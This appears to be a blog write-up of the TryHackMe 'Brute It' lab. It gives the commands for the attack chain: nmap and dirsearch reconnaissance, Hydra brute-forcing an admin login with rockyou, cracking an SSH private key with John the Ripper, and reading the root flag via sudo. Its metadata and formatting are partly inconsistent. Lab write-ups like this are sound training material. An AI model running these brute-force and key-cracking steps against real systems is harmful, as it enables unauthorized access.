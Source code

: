 ```yaml
---
title: "🧪 TryHackMe – Brute It"
layout: post
collection: writeups
permalink: /writeups/tryhackme-brute-it/
date: 2025-01-10
categories: [Writeups]
tags: [react, mysql, logistics]
image: /assets/images/writeups/brute-it/tryhackme-brute-it.png
thumbnail: /assets/images/writeups/brute-it/tryhackme-brute-it.png
icon: fas fa-bolt
excerpt: "Brute-forced SSH using Hydra, cracked RSA key with John the Ripper, and escalated to root on an Ubuntu machine."
description: "Hydra brute-force against an admin panel, SSH key crack with john, and privilege escalation on an Ubuntu machine."
---
```




![Brute It Screenshot](/assets/images/writeups/brute-it/tryhackme-brute-it.png)

## 🧠 Target
- Brute-force login credentials over SSH  
- Hash cracking  
- Privilege escalation

## 🛠 Tools Used
- Hydra  
- Nmap  
- John the Ripper  
- Kali Linux

## 🧭 Steps

### Step 1 — Deployed the target machine
Target IP: `10.10.34.33`  
Deployed the target and confirmed reachability.

![Target Machine](/assets/images/writeups/brute-it/target-machine.png)

### Step 2 — Nmap scan
Command:
nmap -sS -sV 10.10.34.33

markdown
Copy code
Findings: ports `22` (ssh) and `80` (http) open. SSH: **OpenSSH 7.6p1**. Apache: **2.4.29**. OS: **Ubuntu**.

![Nmap](/assets/images/writeups/brute-it/nmap.png)

### Step 3 — Hidden directories
Used dirsearch:
dirsearch -u http://10.10.34.33


Found `/admin` — admin login page available.

![Dirsearch](/assets/images/writeups/brute-it/dirsearch.png)

### Step 4 — Admin page analysis
Visited `http://10.10.34.33/admin`. Devtools revealed a username hint: `admin`.

![Admin Devtools](/assets/images/writeups/brute-it/User-login-info-devtools.png)

### Step 5 — Hydra brute-force
Initial (slow) command:
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^login=^Login:Username or password invalid"

makefile
Copy code
Optimized:
hydra -l admin -P /usr/share/wordlists/rockyou.txt -e nsr -t 16 -vV 10.10.34.33 http-post-form "/admin/:user=^USER^&pass=^PASS^&login=Login:Username or password invalid"

ruby
Copy code
Result: `login: admin  password: xavier`

![Hydra](/assets/images/writeups/brute-it/hydra1.png)

### Step 6 — Logged in as admin
Gained user access. Web flag: `THM{brut3_f0rce_is_e4sy}`.

![Admin Login](/assets/images/writeups/brute-it/login-success.png)

### Step 7 — Extracted RSA private key & cracked it
Saved RSA private key and converted it for John:
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=SSH hash
john --show hash

ruby
Copy code
Cracked key allowed SSH as `john`.

![RSA crack](/assets/images/writeups/brute-it/rockinroll.png)

### Step 8 — Shell & flags
Used the private key:
chmod 600 id_rsa
ssh -i id_rsa john@10.10.34.33
cat user.txt

ruby
Copy code
Web Flag: `THM{brut3_f0rce_is_e4sy}`  
User flag present. Then escalated to root.

![Shell](/assets/images/writeups/brute-it/root.png)

### Step 9 — Privilege escalation
Checked sudo rights:
sudo -l
sudo cat /root/root.txt

yaml
Copy code
Root flag: `THM{pr1v1l3g3_3sc4l4t10n}`

![Privilege](/assets/images/writeups/brute-it/sudo.png)

---

## 📘 Lessons Learned
- Enforce account lockout and rate-limiting (prevent brute-force).  
- Use multi-factor authentication or SSH key policies.  
- Avoid guessable credentials and default accounts.

---

## Notes / Artifacts
- Commands used and screenshots are included above.  
- Sanitize any client screenshots before publishing publicly.


